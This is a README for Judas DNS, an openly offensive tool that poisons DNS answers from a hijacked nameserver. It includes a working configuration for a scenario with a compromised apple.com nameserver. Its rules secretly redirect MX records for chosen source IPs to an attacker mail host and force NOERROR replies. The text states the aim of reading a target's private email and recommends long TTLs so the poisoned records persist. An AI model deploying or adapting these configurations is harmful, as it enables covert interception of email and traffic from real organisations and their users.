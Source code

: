# Judas DNS
```
                                                   
                          ,,                                                        
   `7MMF'               `7MM                       `7MM"""Yb. `7MN.   `7MF'.M"""bgd 
     MM                   MM                         MM    `Yb. MMN.    M ,MI    "Y 
     MM `7MM  `7MM   ,M""bMM   ,6"Yb.  ,pP"Ybd       MM     `Mb M YMb   M `MMb.     
     MM   MM    MM ,AP    MM  8)   MM  8I   `"       MM      MM M  `MN. M   `YMMNq. 
     MM   MM    MM 8MI    MM   ,pm9MM  `YMMMa.       MM     ,MP M   `MM.M .     `MM 
(O)  MM   MM    MM `Mb    MM  8M   MM  L.   I8       MM    ,dP' M     YMM Mb     dM 
 Ymmm9    `Mbod"YML.`Wbmd"MML.`Moo9^Yo.M9mmmP'     .JMMmmmdP' .JML.    YM P"Ybmmd"  

                                         Nameserver DNS poisoning attacks made easy
```
A DNS proxy server built to be deployed in place of a taken over nameserver to perform targeted exploitation. Judas works by proxying all DNS queries to the legitimate nameservers for a domain. The magic comes with Judas's rule configurations which allow you to change DNS responses depending on source IP or DNS query type. This allows an attacker to configure a malicious nameserver to do things like selectively re-route inbound email coming from specified source IP ranges (via modified MX records), set extremely long TTLs to keep poisoned records cached, and more.

# Example Config
The following is an example configuration for Judas for an example scenario where an attacker has comprimised/taken over one of Apple's authoritative nameservers (for `apple.com`):

```json
{
    "version": "1.0.0",
    "port": 2248,
    "dns_query_timeout": 10000,
    "target_nameservers": [ "17.254.0.59", "17.254.0.50", "17.112.144.50", "17.112.144.59", "17.171.63.30", "17.171.63.40", "17.151.0.151", "17.151.0.152" ],
    "rules": [
        {
            "name": "Secretly redirect all emails coming from 127.0.0.1!",
            "query_type_matches": [ "MX" ],
            "ip_range_matches": [ "127.0.0.1/32" ],
            "modifications": [
                {
                    "answer": [
                        {
                            "name": "apple.com",
                            "type": 15,
                            "class": 1,
                            "ttl": 10,
                            "priority": 10,
                            "exchange": "hacktheplace.localhost"
                        }
                    ]
                }
            ]
        },
        {
            "name": "Make all responses NOERROR even if they've failed.",
            "query_type_matches": [ "*" ],
            "modifications": [
                {
                    "header": {
                        "rcode": 0
                    }
                }
            ]
        }
    ]
}
```
The above configuration value purposes are the following:

* `version`: The configuration file format version (for now is always `1.0.0`).
* `port`: The port Judas should run on.
* `dns_query_timeout`: How long to wait in milliseconds before giving up on a reply from the upstream target nameserver.
* `target_nameservers`: The legit nameservers for your target domain, all DNS queries will be sent here from Judas on behalf of all requesting clients.
* `rules`: A list of rules with modifications to the DNS response to apply if matched.
	* `name`: Name of a given rule.
	* `query_type_matches`: List of query types to match on such as `CNAME`, `A`, etc. A wildcard (`*`) can also be specified to match any query type.
	* `ip_range_matches`: List of IP ranges to match on. For selectively spoofing responses to a specific range of IPs.
	* `modifications`: See the "Modifications" section of this README.

# Modifications
Judas's rules come with a `modifications` specification which is set to a list of varying modifications to make to the DNS response before it is sent back to the client. It is important that you read the [`node-dns` documentation](https://github.com/tjfontaine/node-dns#packet) to understand the DNS response structure so you can modify it.

An example DNS response format is the following:

```
{ header: 
   { id: 25373,
     qr: 1,
     opcode: 0,
     aa: 1,
     tc: 0,
     rd: 1,
     ra: 0,
     res1: 0,
     res2: 0,
     res3: 0,
     rcode: 5 },
  question: [ { name: 'apple.com', type: 2, class: 1 } ],
  answer: 
   [ { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver4.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver3.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver5.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'nserver6.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns2.apple.com' },
     { name: 'apple.com',
       type: 2,
       class: 1,
       ttl: 86400,
       data: 'adns1.apple.com' } ],
  authority: [],
  additional: [],
  edns_options: [],
  payload: undefined,
  address: undefined,
...trimmed for brevity...
```
(For more information on the DNS response data structure see [this documentation](https://github.com/tjfontaine/node-dns#packet).)

Writing a modification is very simple, an example rule with modification can be seen below:

```json
{
  "name": "Make all responses NOERROR even if they've failed.",
  "query_type_matches": [ "*" ],
  "modifications": [
    {
      "header": {
        "rcode": 0
      }
    }
  ]
}
```

The above rule matches any query type (due to the wildcard (`*`)) and sets the `header.rcode` value of the DNS response to `0`. Whatever object is set as a modification element is merged into the DNS response - replacing whatever value was originally set.

Another example is the following:

```json
{
  "name": "Secretly redirect all emails coming from 127.0.0.1!",
  "query_type_matches": [ "MX" ],
  "ip_range_matches": [ "127.0.0.1/32" ],
  "modifications": [
    {
      "answer": [
        {
          "name": "apple.com",
          "type": 15,
          "class": 1,
          "ttl": 10,
          "priority": 10,
          "exchange": "hacktheplace.localhost"
        }
      ]
    }
  ]
}
```

The above rule matches any `MX` query from `127.0.0.1`. The DNS response's answer is overwritten with a single MX record for `hacktheplace.localhost`. A real world implementation of this would be to redirect inbound emails from a specific IP in order to read private emails of your target. Additionally an attacker in a real world scenario may also choose to modify the response TTL to be a very high value in order to persist their malicious records in client DNS caches as long as possible.